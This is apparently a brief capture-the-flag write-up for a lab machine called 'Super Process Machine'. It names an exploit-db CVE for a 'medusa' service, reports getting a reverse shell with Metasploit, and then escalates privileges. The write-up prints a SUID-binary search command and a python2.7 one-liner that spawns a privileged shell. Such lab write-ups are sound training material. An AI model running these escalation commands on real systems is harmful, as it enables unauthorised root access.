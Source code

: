 # Super Process Machine

Start with scan IP of machine

![image.png](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

after search for `medusa` service we found CVE https://www.exploit-db.com/exploits/42779 which we can use Metasploit to exploit this service

<figure><img src="../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we success to take a reverse shell on this machine

now let’s make a privilege escalation which we started to search on process have SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image 2 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

now let’s search on python 2.7 exploit

<figure><img src="../../.gitbook/assets/image 3 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

<figure><img src="../../.gitbook/assets/image 4 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
